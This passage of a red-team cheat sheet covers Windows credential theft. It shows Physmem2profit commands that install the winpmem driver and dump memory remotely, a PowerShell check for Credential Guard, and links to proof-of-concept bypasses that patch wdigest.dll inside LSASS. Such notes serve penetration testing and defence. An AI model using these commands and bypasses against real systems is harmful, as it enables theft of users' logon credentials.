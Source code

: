 

### Physmem2profit

- [https://labs.withsecure.com/blog/rethinking-credential-theft/](https://labs.withsecure.com/blog/rethinking-credential-theft/)
- [https://github.com/FSecureLABS/physmem2profit](https://github.com/FSecureLABS/physmem2profit)
- [https://github.com/Velocidex/WinPmem/releases/tag/v4.0.rc1](https://github.com/Velocidex/WinPmem/releases/tag/v4.0.rc1)

Server:

```
PS > .\Physmem2profit.exe --ip 192.168.1.11 --port 1337 --verbose [--hidden]
```

Client:

```
$ python3 physmem2profit --host 192.168.1.11 --port 1337 --install "C:/Windows/Temp/winpmem_x64.sys" --mode all --driver winpmem
```




## Credential Guard

Check presence ([ref](https://gist.github.com/frayos/69fe2f3fa1990478f26c289baf7ca083)):

```powershell
$DevGuard = Get-CimInstance –ClassName Win32_DeviceGuard –Namespace root\Microsoft\Windows\DeviceGuard
if ($DevGuard.SecurityServicesConfigured -contains 1) {"Credential Guard configured"}
if ($DevGuard.SecurityServicesRunning -contains 1) {"Credential Guard running"}
```


### Patch and Bypass

- [https://icebreaker.team/blogs/sleeping-with-control-flow-guard/](https://icebreaker.team/blogs/sleeping-with-control-flow-guard/)

Patch the `g_fParameter_UseLogonCredential` and `g_IsCredGuardEnabled` variables by their hardcoded offsets within `wdigest.dll` loaded by LSASS:

- [https://teamhydra.blog/2020/08/25/bypassing-credential-guard/](https://teamhydra.blog/2020/08/25/bypassing-credential-guard/)
- [https://gist.github.com/N4kedTurtle/8238f64d18932c7184faa2d0af2f1240](https://gist.github.com/N4kedTurtle/8238f64d18932c7184faa2d0af2f1240)

Resolve `g_fParameter_UseLogonCredential` and `g_IsCredGuardEnabled` variable offsets dynamically at runtime:

- [https://itm4n.github.io/credential-guard-bypass/](https://itm4n.github.io/credential-guard-bypass/)
- [https://github.com/itm4n/Pentest-Windows/blob/main/CredGuardBypassOffsets/poc.cpp](https://github.com/itm4n/Pentest-Windows/blob/main/CredGuardBypassOffsets/poc.cpp)
